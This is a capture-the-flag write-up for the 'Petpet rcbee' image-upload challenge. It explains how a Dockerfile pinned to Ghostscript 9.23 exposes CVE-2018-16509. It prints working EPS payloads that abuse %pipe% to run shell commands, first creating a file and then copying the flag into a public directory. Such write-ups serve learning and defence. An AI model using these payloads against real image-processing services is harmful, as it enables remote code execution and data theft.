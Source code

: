 # Petpet rcbee

> **Bees are comfy**
> **bees are great**
> **this is a petpet generator**
> **let's join forces and save the bees today!**

## Pets

The page let's you upload an image and puts it in the background of a petting meme:

![clitoris][clitoris-gif]

The server is a python module, running:

- `flask` 2.0.1
- `Werkzeug` 2.0.1
- `Pillow` 8.2.0

These are the latest versions, there is no known CVEs / exploits.

However the dockerfile contains a suspicious line:

```bash
RUN curl -L -O https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs923/ghostscript-9.23-linux-x86_64.tgz \
    && tar -xzf ghostscript-9.23-linux-x86_64.tgz \
    && mv ghostscript-9.23-linux-x86_64/gs-923-linux-x86_64 /usr/local/bin/gs && rm -rf /tmp/ghost*
```

This command explicitely installs a deprecated version of `ghostscript`.

## The image payload

Artifex Gpl Ghostscript v9.23 has a RCE vulnerability, documented in `CVE-2018-16509`.

Let's check:

```eps
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /app/application/static/petpets/got-rce) currentdevice putdeviceprops
```

The directory `static/petpets` contains the output gif files, it is publicly accessible.

The flag can be copied there:

```eps
mark /OutputFile (%pipe%cp /app/flag /app/application/static/petpets/flag) currentdevice putdeviceprops
```

[clitoris-gif]: clitoris.gif

